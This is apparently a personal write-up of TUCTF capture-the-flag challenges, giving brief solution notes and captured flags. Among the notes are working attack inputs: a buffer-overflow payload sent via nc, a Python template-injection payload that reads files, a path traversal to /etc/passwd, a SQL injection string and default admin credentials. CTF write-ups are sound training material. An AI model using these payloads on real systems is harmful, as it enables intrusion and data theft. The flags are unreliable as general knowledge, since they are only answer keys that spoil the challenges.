

[https://tuctf.com/](https://tuctf.com/)
 
## completed challenges
**welcome** 

welcome
 
just needed to '.validate' on discord

<pre>TUCTF{W3lc0m3_70_TUCTF._H4v3_fun}</pre> 

**misc** 
misc - red yarn
strings DEBUG.COM | grep TUCTF
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}

misc - super secret
binwalk -e document.odt
cat _document.odt.extracted/Basic/Standard/flag.xml
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}

misc - onions
opened with 7zip 
several layers deep and found flag
TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}
**pwn** 
pwn - runme
strings runme | grep TUCTF
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}

pwn - thefirst
objdump -d ./thefirst
	080491f6 <printFlag>
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508
TUCTF{0n3_d0wn..._50_m4ny_70_60}
**crypto** 
crypto - common
https://medium.com/bugbountywriteup/rsa-attacks-common-modulus-7bdb34f331a5
TUCTF{Y0U_SH0ULDNT_R3US3_TH3_M0DULUS}

crypto - sonic
rot-cipher
TUCTF{W04H_DUD3_S0_F4ST_S0N1C_4PPR0V3S}

crypto - warren 
TUCTF{th4nks_f0r_d1n1ng_4641n_4t_th3_W4rr3n_buff3t}
**mega** 
mega - coffee
BREW /teapot
HTCPCP/1.0 418 I'm a teapot. Go to /broken.zip
https://tools.ietf.org/html/rfc2324
TUCTF{d0_y0u_cr4v3_th3_418}

mega - broken
strings broken.img | grep TUCTF
TUCTF{D1S4ST3R_R3C0V3RY}
**reversing** 
reversing - faker
gdb -q ./faker
	jump thisone
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
**web** 
web - open door
source code found flag
TUCTF{f1r5t_fl46_345135t_fl46} 

web - test test test
looked in imgs directory
todo.txt and flag.php files
pause requests on burp when selecting flag.php to reveal flag
TUCTF{d0nt_l34v3_y0ur_d1r3ct0ry_h4n61n6}
 
web - router where art thou
0.html - started off here with a form
1.html - tried this file and sonicwall login revealed
2.html - tried this file and palo login revealed
	admin:admin worked
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}

web - and now for something completely different
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)
http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D
TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

web - cute animals
lfi found on portal.php
/./././././././././././etc/passwd
TUCTF{m0r3_cut3_4n1m415_c4n_b3_f0und_4t_https://bit.ly/1HU2m5Q}

web - robots
/robots.txt but need
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}

web - login to access
sql injection revealed actual login login.html 
' or '1' = '1  
but login.php.bak file was found to reveal flag
TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk} 
